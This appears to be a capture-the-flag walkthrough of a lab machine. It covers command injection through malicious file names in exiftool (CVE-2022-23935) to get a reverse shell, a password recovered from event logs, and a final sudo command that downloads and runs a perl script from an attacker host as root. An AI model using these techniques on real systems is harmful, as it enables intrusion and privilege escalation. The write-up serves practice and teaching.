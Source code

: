 # Investigation

## Enumeration
Machine has two open ports (80/http, 22/ssh). 
No suspicious directories found on webserver via ``dirbuster``.
Webserver allows to upload jpg/png files.
The uploaded files are analyzed and the result is shown to the user.

## User flag
- According to the analysis of uploaded files the server runs exiftool version 12.37. 
This version is vulnerable to [CVE-2022-23935](https://github.com/0xFTW/CVE-2022-23935).
This allows to execute arbitrary code on the server.
The script [cve-2022-23935.py](cve-2022-23935.py) generates a payload to obtain a reverse shell.
The payload is a file, which file name is a terminal command ending with a pipe `|`.
Uploading this file to the server will execute the command and provide a reverse shell.
This gives access to ``www-data`` user.

- We find user ``smorton``. Also, we find a file ``Windows Event Logs for Analysis.msg`` which is a `MS Outlook Message`.
Decoded this file using [this instructions](https://superuser.com/questions/99250/opening-a-msg-file-in-ubuntu) to a `*.eml` file.
This file can be parsed by Email program and gives a message indicating that there might be credentials in attached logs.
The attached logs are a `*.evtx` file which can be decoded into text using [instructions here](https://softwarerecs.stackexchange.com/questions/17590/how-to-view-evtx-files-on-linux-windows-event-log).
The revealed plain logs contain a password for user ``smorton/Def@ultf0r3nz!csPa$$``.
This way we can ssh into the machine as user ``smorton``.

# System flag
- `sudo -l` shows that user ``smorton`` can run ``/usr/bin/binary`` as root without password.
- This is a compiled binary which can be decompiled using `ghidra`. The decompiled code shows that the binary takes two arguments: 
  - the first argument is the url of a perl script
  - the second argument is a password stored as plaintext within the file
The binary will download the perl script and execute it if the provided password is valid.
Created a [perl script](rootflag.pl) which reads the root flag and accessed it.
The following command passes the password check, downloads the malicious perl script and executes it:
`sudo binary http://10.10.14.39:8008/test.perl lDnxUysaQn`